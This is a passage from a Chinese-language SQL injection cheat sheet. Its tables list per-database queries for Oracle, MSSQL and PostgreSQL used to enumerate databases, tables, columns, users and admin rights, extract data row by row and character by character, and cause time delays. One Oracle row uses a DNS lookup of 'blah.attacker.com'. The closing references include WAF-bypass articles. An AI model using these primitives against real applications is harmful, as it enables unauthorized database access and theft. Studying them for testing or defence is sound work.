| ASCII值-字符  | SELECT chr(65) FROM dual                                     | #返回A            |         |
| 字符-ASCII值  | SELECT ascii(‘A’) FROM dual                                  | #返回65           |         |
| 字符串连接    | SELECT ‘A’ \                                                 | ‘B’ FROM dual     | #返回AB |
| 时间睡眠      | SELECT UTL_INADDR.get_host_name(‘10.0.0.1’) FROM dual        | #如果反向查询很慢 |         |
| -             | SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual | #如果正向查询很慢 |         |

### （三）MSSQL数据库

| **释义**      | **SQL语句**                                                  | **其他**                         |
| :------------ | :----------------------------------------------------------- | :------------------------------- |
| 当前数据库    | SELECT DB_NAME()                                             | -                                |
| 所有数据库    | SELECT name FROM master…sysdatabases                         | -                                |
| -             | SELECT DB_NAME(N)                                            | #N为0,1,2,…                      |
| 查询表名      | SELECT name FROM master…sysobjects WHERE xtype = ‘U’         | -                                |
| -             | SELECT name FROM someotherdb…sysobjects WHERE xtype = ‘U’    | -                                |
| 查询列名      | SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’) | #当前数据库                      |
| -             | SELECT master…syscolumns.name, TYPE_NAME(master…syscolumns.xtype) FROM master…syscolumns, master…sysobjects WHERE master…syscolumns.id=master…sysobjects.id AND master…sysobjects.name=‘sometable’ | #列出master…sometable的列名称    |
| 获取版本      | SELECT @@version                                             | -                                |
| 当前用户      | SELECT user_name()                                           | -                                |
| -             | SELECT system_user                                           | -                                |
| -             | SELECT user                                                  | -                                |
| 用户权限      | SELECT permission_name FROM master…fn_my_permissions(null,‘DATABASE’) | #当前数据库权限                  |
| -             | SELECT is_srvrolemember(‘sysadmin’)                          | #当前用户权限                    |
| 列出DBA账户   | SELECT is_srvrolemember(‘sysadmin’)                          | #当前用户是否是管理员，是则返回1 |
| 选择第N行     | SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master…syslogins ORDER BY name ASC) sq ORDER BY name DESC | #返回第九行                      |
| 选择第N个字符 | SELECT substring(‘abcd’, 3, 1)                               | #返回c                           |
| ASCII值-字符  | SELECT char(0×41)                                            | #返回A                           |
| 字符-ASCII值  | SELECT ascii(‘A’)                                            | #返回65                          |
| 字符串连接    | SELECT ‘A’ + ‘B’                                             | #返回AB                          |
| 时间睡眠      | WAITFOR DELAY ‘0:0:5’                                        | #睡眠5秒                         |

### （四）PostgreSQL数据库

| **释义**      | **SQL语句**                                                  | **其他**        |         |
| :------------ | :----------------------------------------------------------- | :-------------- | :------ |
| 当前数据库    | SELECT current_database()                                    | -               |         |
| 所有数据库    | SELECT datname FROM pg_database                              | -               |         |
| 查询表名      | SELECT relname, A.attname FROM pg_class C, pg_namespace N,pg_attribute A, pg_type T WHERE (C.relkind=‘r’) AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) | -               |         |
| 查询列名      | SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,") AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid) | -               |         |
| 获取版本      | SELECT version()                                             | -               |         |
| 当前用户      | SELECT user;                                                 | -               |         |
| -             | SELECT current_user;                                         | -               |         |
| -             | SELECT session_user;                                         | -               |         |
| -             | SELECT usename FROM pg_user;                                 | -               |         |
| -             | SELECT getpgusername();                                      | -               |         |
| 用户权限      | SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user | -               |         |
| 列出DBA账户   | SELECT usename FROM pg_user WHERE usesuper IS TRUE           | -               |         |
| 选择第N行     | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0 | #从0行开始编号  |         |
| -             | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1; | -               |         |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1)                                  | #返回c          |         |
| ASCII值-字符  | SELECT chr(65)                                               | #返回A          |         |
| 字符-ASCII值  | SELECT ascii(‘A’)                                            | #返回65         |         |
| 字符串连接    | SELECT ‘A’ \                                                 | ‘B’             | #返回AB |
| 时间睡眠      | SELECT pg_sleep(10)                                          | #睡眠10秒       |         |
| -             | SELECT sleep(10)                                             | #创建自定义睡眠 |         |


## 七、参考：

- https://www.cnblogs.com/zhianku/p/16537805.html
- https://www.cnblogs.com/kinghtxg/articles/17158172.html
- https://blog.csdn.net/m0_74855736/article/details/136582149
- waf：https://www.anquanke.com/post/id/268428#h3-15
- waf：https://xz.aliyun.com/t/7767
- 注入类型：https://blog.csdn.net/weixin_44369049/article/details/134067481
- 各注入类型流程：https://www.cnblogs.com/-chenxs/p/11614129.html
- 各注入类型示例：https://cloud.tencent.com/developer/article/1518647
